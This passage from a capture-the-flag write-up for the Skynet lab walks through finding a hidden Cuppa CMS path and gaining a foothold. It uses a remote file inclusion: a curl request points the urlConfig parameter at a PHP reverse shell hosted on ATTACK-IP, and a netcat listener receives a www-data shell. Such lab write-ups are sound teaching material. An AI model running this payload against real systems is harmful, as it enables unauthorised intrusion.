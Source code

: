 In the notes directory we find a file `important.txt` that is a to-do list including a path to a "beta CMS" :

```console
┌──(kali㉿kali)-[~/Documents/tthm/skynet]
└─$ cat important.txt  

1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

Navigating to the discovered route reveals a basic placeholder page, but a gobuster scan of the route (`gobuster dir -u $IP/45kra24zxs28v3yd -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`) reveals an `/administrator` route hosting a [Cuppa CMS](https://www.cuppacms.com/) login page : 

```html
<title>Cuppa CMS</title>
...snip...
    <div class="login_box">
        <form id="form_login" method="post" style="display:block">
            <div class="comment">Use a valid username and password to gain access to the administrator</div>
...snip...
```

(This page also includes a "display:none" password reset form. A password reset request for "milesdyson@skynet" receives a success response, but the reset email is never received.)

## 5. Foothold - Remote File Inclusion

The discovered credentials pairs don't work on the admin panel and no version information is available in the source, but Searchsploit finds a [local / remote file inclusion vulnerability for Cuppa CMS](https://www.exploit-db.com/exploits/25971). Local and remote files locations passed to the `cuppa/alerts/alertConfigField.php?urlConfig=` query param are included and executed (if php) or appended to the request output (if non-php). To exploit the vulnerability, we download and configure a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and host it on the attack machine (`python3 -m http.server 80`). We then set up a netcat listener and navigate to the vulnerable path, adding the route to the reverse shell to the urlConfig query param : 


```console
┌──(kali㉿kali)-[~/Documents/tthm/skynet]
└─$ curl $IP//45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://ATTACK-IP/rs.php
```

Cuppa then includes and executes the `rs.php` file and connects to the listener : 

```console
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [ATTACK-IP] from (UNKNOWN) [10.10.191.241] 58532
...snip...
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

